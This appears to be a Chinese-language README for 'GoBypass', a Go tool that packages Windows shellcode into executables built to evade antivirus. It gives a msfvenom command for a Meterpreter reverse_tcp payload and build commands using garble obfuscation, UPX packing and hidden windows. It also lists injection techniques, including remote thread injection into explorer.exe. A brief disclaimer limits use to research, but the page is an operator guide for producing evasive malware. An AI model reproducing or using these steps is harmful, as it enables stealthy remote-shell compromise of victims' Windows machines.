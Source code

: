 # GoBypass

### 免责声明

该工具仅用于安全研究，禁止使用工具发起非法攻击等违法行为，造成的后果使用者负责

### 介绍

`Golang`免杀马生成工具（该工具仅针对`Windows`系统）

不确定免杀效果如何，核心部分借鉴大佬的代码然后自己造轮子

使用参考视频：https://www.bilibili.com/video/BV1iu411d7QB

![LOGO](/img/logo.png)

### 准备工作

在`kali`中使用`msfvenom`生成需要的`payload`（注意使用`-f c`参数）

示例：`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -f c`

复制完整C语言格式的`shellcode`并写入当前目录的`shellcode.txt`

（无需过多处理，内部会对ShellCode进行编码）

### 生成免杀马

在生成免杀马之前请注意以下三件事

1. 确保安装`Golang`且环境变量中包含`go`否则无法编译
2. 请在当前目录先执行`go env -w GO111MODULE=on`然后`go mod download`命令下载依赖
3. 如果下载依赖过慢配置镜像`go env -w GOPROXY=https://mirrors.aliyun.com/goproxy`

一切就绪后就可以开始生成了

示例：

1. 使用`CreateThread`模块并删除编译信息：`go run main.go -m CreateThread -d`
2. 删除编译信息且用`garble`混淆源码后编译：`go run main.go -m CreateThread -d -g`
3. 编译后的可执行文件进行`upx`加壳：`go run main.go -m CreateThread -d -g -u`

可选参数如下

| 参数  |                参数说明                 |  参数类型  | 是否必须 |
|:---:|:-----------------------------------:|:------:|:----:|
| -m  |                使用模块                 | string |  是   |
| -s  |    shellcode文件（默认shellcode.txt）     | string |  否   |
| -d  |         使用ldflags -s -w进行编译         |  bool  |  否   |
| -r  |     使用竞态检测器-race进行编译（可能提高免杀效果）      |  bool  |  否   |
| -w  | 隐藏窗口ldflags -H windowsgui（可能降低免杀效果） |  bool  |  否   |
| -u  |           最终生成的exe进行UPX加壳           |  bool  |  否   |
| -g  |        使用garble进行编译（对源码进行混淆）        |  bool  |  否   |
| -h  |               查看帮助信息                |  bool  |  否   |

其中必须的模块参数如下

| 模块名                      | 简介                                              |
|:-------------------------|:------------------------------------------------|
| CreateFiber              | 利用Windows CreateFiber函数                         |
| CreateProcess            | 利用Windows CreateProcess函数在挂起状态下创建进程             |
| CreateRemoteThread       | 远程进程注入ShellCode（注入explorer.exe）                 | 
| CreateRemoteThreadNative | 和上一条区别在于使用更底层的方式（注入explorer.exe）                |
| CreateThread             | 利用Windows CreateThread函数                        |
| CreateThreadNative       | 和上一条区别在于使用更底层的方式                                |
| CryptProtectMemory       | 利用Windows dpapi.h CryptProtectMemory函数          |
| CryptUnprotectMemory     | 利用Windows dpapi.h CryptUnprotectMemory函数        |
| EarlyBird                | 注入的代码在进程主线程的入口点之前运行                             |
| EtwpCreateEtwThread      | 利用Windows EtwpCreateEtwThread函数在进程中执行ShellCode  |
| HeapAlloc                | 创建一个可供调用进程使用的堆并分配内存写入ShellCode                  |
| NtQueueApcThreadEx       | 在当前进程的当前线程中创建一个特殊用户APC来执行ShellCode              |
| RtlCreateUserThread      | 利用Windows RtlCreateUserThread函数（注入explorer.exe） |
| UuidFromStringA          | 利用Windows UuidFromStringA函数                     |

### 参考

尤其感谢`Safe6Sec`师傅的项目

- https://github.com/safe6Sec/GolangBypassAV
- https://github.com/Ne0nd0g/go-shellcode
